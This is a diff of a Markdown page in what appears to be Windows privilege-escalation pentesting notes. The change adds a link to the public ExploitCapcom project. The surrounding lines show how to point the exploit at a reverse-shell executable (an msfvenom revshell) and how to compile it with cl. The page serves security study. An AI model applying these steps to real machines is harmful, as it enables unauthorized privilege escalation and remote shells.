

Before and after one commit to HackingNaTuga/Zero2PwnTest, a Markdown page: Windows PrivEsc/3_windows_group.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

`````diff
--- a/Windows PrivEsc/3_windows_group.md
+++ b/Windows PrivEsc/3_windows_group.md
@@ -257,6 +257,8 @@ static bool LaunchShell()
 # TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe"); -> This could be msfvenom revshell
 # Compile
 cl /DUNICODE /D_UNICODE ExploitCapcom.cpp
+
+https://github.com/tandasat/ExploitCapcom
 ````
 **Automating the Steps**
 
`````
